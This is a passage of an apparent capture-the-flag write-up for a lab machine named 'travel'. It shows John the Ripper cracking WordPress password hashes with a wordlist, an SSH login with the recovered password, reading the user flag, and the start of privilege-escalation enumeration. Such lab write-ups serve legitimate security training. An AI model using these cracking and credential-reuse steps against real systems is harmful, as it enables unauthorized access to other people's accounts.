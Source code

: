 Let us use john to crack the hashes using rockyou.txt.

```bash
root@darkness:~# john wp.hashes -w=/usr/share/wordlists/rockyou.txt
Loaded 2 password hashes with 2 different salts (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
1stepcloser      (lynik-admin)
```

We successfully crack the hash for the user `lynik-admin`.

### Getting shell as user

Now that we have cracked the hash, let us try to login via ssh.

```bash
root@darkness:~# ssh lynik-admin@10.10.10.189
lynik-admin@10.10.10.189s password: 1stepcloser
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-26-generic x86_64)

  System information as of Fri 11 Sep 2020 02:58:39 PM UTC

  System load:                      0.02
  Usage of /:                       46.0% of 15.68GB
  Memory usage:                     11%
  Swap usage:                       0%
  Processes:                        209
  Users logged in:                  0
  IPv4 address for br-836575a2ebbb: 172.20.0.1
  IPv4 address for br-8ec6dcae5ba1: 172.30.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.10.189

lynik-admin@travel:~$
```

We get a shell as user and can now read user.txt.

```bash
lynik-admin@travel:~$ cat user.txt 
c9d35***************************
```

## Privesc to root

Now that we have a shell as `lynik-admin`, let us enumerate the system to find a way to escalate our privileges to root.

### Enumeration as lynik-admin

Checking out the home-directory of our user, we find a couple of interesting files:

```bash
lynik-admin@travel:~$ ls -alh
total 36K
drwx------ 3 lynik-admin lynik-admin 4.0K Apr 24 06:52 .
drwxr-xr-x 4 root        root        4.0K Apr 23 17:31 ..
lrwxrwxrwx 1 lynik-admin lynik-admin    9 Apr 23 17:31 .bash_history -> /dev/null
-rw-r--r-- 1 lynik-admin lynik-admin  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 lynik-admin lynik-admin 3.7K Feb 25  2020 .bashrc
drwx------ 2 lynik-admin lynik-admin 4.0K Apr 23 19:34 .cache
-rw-r--r-- 1 lynik-admin lynik-admin   82 Apr 23 19:35 .ldaprc
-rw-r--r-- 1 lynik-admin lynik-admin  807 Feb 25  2020 .profile
-r--r--r-- 1 root        root          33 Sep 11 14:43 user.txt
-rw------- 1 lynik-admin lynik-admin  861 Apr 23 19:35 .viminfo
```
